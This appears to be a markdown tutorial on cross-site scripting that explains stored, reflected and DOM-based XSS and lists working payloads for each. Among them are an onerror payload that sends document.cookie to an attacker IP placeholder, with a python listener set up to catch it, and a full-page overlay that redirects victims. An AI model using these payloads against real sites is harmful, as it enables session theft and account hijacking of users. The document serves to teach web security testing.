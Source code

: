**Cross-Site Scripting** (XSS) is a type of security vulnerability commonly found in web applications. It occurs when an attacker injects malicious code, usually in the form of scripts, into a web page or application, which is then executed by unsuspecting users who visit that page. The injected code can steal sensitive data, manipulate web content, or perform actions on behalf of the user without their consent.

There are three main types of XSS attacks:

1. **Stored XSS:** The malicious code is permanently stored on a server and is served to multiple users when they access a specific page or resource. This type of XSS can have a long-lasting impact as it affects all subsequent visitors to the compromised page.
    
2. **Reflected XSS:** In this case, the injected code is reflected off a web server and immediately executed in response to a user's request. Typically, the attacker tricks the user into clicking on a malicious link containing the payload.
    
3. **DOM-based XSS:** This type of XSS occurs when the client-side script in a web page manipulates the Document Object Model (DOM) without proper sanitization or validation, allowing an attacker to execute malicious code on the client-side.
## Basic script
A basic example of an XSS payload is a simple JavaScript alert box. This payload triggers a pop-up alert when injected into a vulnerable site:
```bash
<script>alert("hi")</script>
```

## Image-based XSS
With this type of script we are trying to upload an image, but providing a wrong source. We generate this error on purpose to execute the *onerror* javascript function that prints hi in a pop-upp suing alert.
```bash
<img src='x' onerror=alert("hi") />
```

Also, we can use the onclick javascript's function. If we upload an image with a valid source when we click the image it will spawn the pop-up with the alert message.
```bash
<img src"<valid url>" onclick=alert("hi") />
```

#### Payload example

An example of a payload that an attacker might use is one crafted with an <img> tag and an `onerror` attribute. This payload creates a button that notifies the user of a simulated "error" on the website. The malicious script effectively prevents the user from interacting with any other elements on the page, forcing them to click the button. Upon clicking, the user is redirected to a malicious website controlled by the attacker.  

```bash
<img src="x" onerror="(function(){var m=document.createElement('div');m.style='position:fixed;top:0;left:0;width:100%;height:100%;background-color:rgba(0,0,0,0.5);display:flex;justify-content:center;align-items:center;';var a=document.createElement('div');a.style='background-color:white;padding:20px;border-radius:5px;text-align:center;';var msg=document.createElement('p');msg.textContent='Error occurred!';var b=document.createElement('button');b.textContent='Go to [example.com](http://example.com)';b.onclick=function(){window.location.href='[http://example.com](http://example.com)';};a.appendChild(msg);a.appendChild(b);m.appendChild(a);document.body.appendChild(m);})();" />
```

## Obtaining Cookies
One of the most common attack vectors is to steal the victim's session cookie. This can be done by injecting a payload that sends the victim's cookies to an attacker-controlled server.
```bash
<img src=x onerror=fetch("own_ip:port/"+document.cookie);>
```
With this petition we induce the victim server to execute JS code. With this code the server tries to execute  a wrong image and on the error sends it's cookie to our machine. Before executing this payload is necessary to open a local port.
```bash
python3 -m http.server 80
```

## SVG script
When this code is injected into a web page, the SVG image will be loaded, and as soon as it's loaded, the `onload` event will fire, executing the JavaScript code and displaying the "1" in a pop-up alert box. It uses an SVG (Scalable Vector Graphics) element to trigger the JavaScript alert.

```bash
<svg onload=alert(1)>
```

- Example:
If we are attacking a web where whatever you insert will be assigned to the variable query, this option of XSS could be useful.
```bash
function trackSearch(query) {
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
}

QUERY="><svg onload=alert(1)>
```

## DOM XSS using an anchor in jQuery
```bash
javascript:alert(document.cookie)
```
The code executes on the client side, within the user's browser. It doesn't rely on the server processing user input or delivering malicious content in the server response. Instead, it relies on manipulating the Document Object Model (DOM) of the current web page.

If an attacker can inject this code into a web page by manipulating user-generated content (e.g., through input fields or URLs), the injected code will execute within the user's browser. For example, an attacker might craft a URL like `https://example.com/?input=javascript:alert(document.cookie)` and trick a user into clicking it.

